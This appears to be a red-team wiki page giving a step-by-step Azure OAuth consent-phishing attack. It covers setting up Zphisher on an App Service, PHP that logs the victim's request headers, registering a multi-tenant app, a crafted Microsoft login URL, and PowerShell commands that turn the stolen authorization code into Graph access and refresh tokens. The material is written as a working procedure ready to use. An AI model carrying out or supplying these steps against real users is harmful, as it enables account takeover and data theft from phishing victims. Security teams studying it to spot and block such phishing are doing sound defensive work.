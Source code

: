 # Azure Application service phishing

## Azure Application service phishing

The goal is to create a portal which will prompt the victim to accept specific access from an application into his account.

### Installation

Set up an APP service and Zphisher

{% embed url="https://b3v1l.gitbook.io/offensive-security-and-other-stuff/offsec/cloud-pentesting/cloud-redteam-operation/phishing-techniques/azure/azure-apps-phishing" %}

### Configuration

Add the following lines into the `/home/site/wwwroot/ip.php` \(just before `fclose($fp);` \)

```php
foreach (getallheaders() as $name => $value) {
                fwrite($fp, "$name: $value <br>");
}
```

### APP registration

On the portal, register a new APP \(which will be what the victim will see\)

![](../../../../.gitbook/assets/image%20%28141%29.png)

Create an application display name, set the account type to "multi-tenant" and set the redirect link to the phishing web page 

![](../../../../.gitbook/assets/image%20%2824%29.png)

### API Permissions

![](../../../../.gitbook/assets/image%20%28195%29.png)

* Set up pernissions \(to be able to authenticate as the user\)

![](../../../../.gitbook/assets/image%20%2878%29.png)

![](../../../../.gitbook/assets/image%20%28313%29.png)

### Admin consent requires

Certain permissions require an admin consent to work...

By default, an user has the ability to set up an application \(accept and consent for the organization\). 

![](../../../../.gitbook/assets/image%20%2828%29.png)

For instance, mail.read doesn't work for multi-tenant \(same tenant is ...\).

### Application Secret

Create a new secret for the application

![](../../../../.gitbook/assets/image%20%28172%29.png)

### Set up the phishing link

Craft the URL which will be sent to the victim

* Get the "application ID" from overview menu

![](../../../../.gitbook/assets/image%20%28273%29.png)

* Replace the Client\_ID value in the following link. Same for URI\_redirect \(using the **phishing instance url**\)

```csharp
https://login.microsoftonline.com/organizations/oauth2/v2.0/authorize?client_id=<your-client-id>&response_type=code&redirect_uri=https%3A%2F%2F<your-azure-app-service-domain>.azurewebsites.net&response_mode=query&scope=openid%20offline_access%20profile%20user.read%20email&state=1234
```

### Victim point of view

* Victim clicks on the link and get a login prompt

![](../../../../.gitbook/assets/image%20%28289%29.png)

* Permissions request

![](../../../../.gitbook/assets/image%20%2896%29.png)

![](../../../../.gitbook/assets/image%20%28165%29.png)

### Steal the OAuth token 

* lifetime really short \(~ 10 minutes\) but can be refreshed 

![](../../../../.gitbook/assets/image%20%2888%29.png)

### Import the token

```csharp
$oauth_token = "TOKEN_HERE"
Import-Module AzureOAuthTools.ps1
Get-AzureAccessToken -ClientID “<your-azure-app-client-id>” -ClientSecret “<your-azure-app-secret>” -RedirectUri “https://<yourdomain>.azurewebsites.net” -AuthCode $oauth_token
```

![](../../../../.gitbook/assets/image%20%28163%29.png)

### Access to the Microsoft Graph using the token

```csharp
Check-MSGraphAccess -access_token "Token from previous command"
```

![](../../../../.gitbook/assets/image%20%28114%29.png)

### Refresh the token

```csharp
 Get-NewAccessTokenWithRefreshToken -ClientID "<Client_ID>" -ClientSecret "<Client_Secret>" -RedirectUri "https://<SITE>.azurewebsites.net" -RefreshToken "<Refresh TOKEN FROM PREVIOUS CMD>"
```

![](../../../../.gitbook/assets/image%20%28269%29.png)

### Resources

{% embed url="https://gist.githubusercontent.com/dafthack/4a753e00ee946a0d967fcffa9fc1c526/raw/e34ed34f9900c061bf4920dfd454f577d4191414/AzureOAuthTools.ps1" %}





